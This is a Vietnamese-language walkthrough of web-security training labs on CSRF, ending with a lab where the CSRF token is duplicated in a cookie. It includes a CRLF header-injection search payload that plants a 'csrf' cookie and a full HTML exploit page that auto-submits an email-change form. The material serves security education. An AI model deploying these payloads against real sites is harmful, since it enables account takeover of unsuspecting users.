 >Lưu payload vào exploit server: ![image](https://hackmd.io/_uploads/SywqL7uH0.png)

>Chạy payload "View exploit" thì thấy thay đổi email thành công: ![image](https://hackmd.io/_uploads/Sk9O87OBR.png)

>Tuy nhiên khi `Deliver exploit to victim` thì không thành công. Lí do là ta cần set thêm cookie `SameSite=None` vì site của exploit-server khác với trang web của bài lab: 
>![image](https://hackmd.io/_uploads/ByOzvmOBA.png)

>Thử lại và thấy thành công, hoàn thành bài lab: ![image](https://hackmd.io/_uploads/rJdidmOrA.png)

# **6. Lab: CSRF where token is duplicated in cookie**
>Chức năng thay đổi email của lab này dễ bị tấn công bởi CSRF. Nó cố gắng sử dụng kỹ thuật ngăn chặn CSRF "duplicated" không an toàn.
Để giải quyết bài lab, hãy sử dụng máy chủ khai thác của bạn để lưu trữ trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`: 
![image](https://hackmd.io/_uploads/BJCGaXOSR.png)

>Đăng nhập vào `wiener`, có chức năng Update email, thực hiện thay đổi email. Tiến hành xem request gửi đi, thấy rằng lần này `csrf` được gán vào trong cả Cookie: ![image](https://hackmd.io/_uploads/SkTrRQdrR.png)

>Thử thay đổi cả csrf trên cookie và ở phần body thành "123" và Send, thấy rằng request vẫn được xử lí thành công: ![image](https://hackmd.io/_uploads/ryHi0QOS0.png)

>Thử thay đổi để 2 csrf này khác nhau thì báo lỗi **"Invalid CSRF token"**: ![image](https://hackmd.io/_uploads/ryM0R7dSR.png)

>Chứng tỏ rằng, server sẽ check giá trị của 2 tham số này nếu giống nhau thì sẽ tiến hành thực hiện request!

>Nhiệm vụ của mình bây giờ sẽ là inject `csrf` bất kì trên cookie của nạn nhân rồi thực hiện sử dụng chính `csrf` token để tấn công. 

>Tương tự bài trên, sử dụng chức năng search để thực hiện inject `csrf` cookie.

>Ta thực hiện search payload (sau khi encode) sau để inject `csrf` cookie.

```
abc\r\n    
Set-Cookie: csrf=ducanh; SameSite=None
```

>![image](https://hackmd.io/_uploads/BkBxX4uH0.png)

>Ta tạo được CSRF payload hoàn chỉnh như sau:
>- Inject `csrf` cookie: Sử dụng tag `<img>`
>- Form update email với `csrf` là giá trị `csrf` giống cookie `csrf`.

```htmlembedded
<html>
  <body>
      <img src="https://<LAB-DOMAIN>/?search=abc%0d%0aSet-Cookie:%20csrf=ducanh%3b%20SameSite%3dNone" onerror="document.forms[0].submit();">
      <form action="https://<LAB-DOMAIN>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;csrf&#46;com" />
        <input type="hidden" name="csrf" value="ducanh" />
    </form>
  </body>
</html>
```
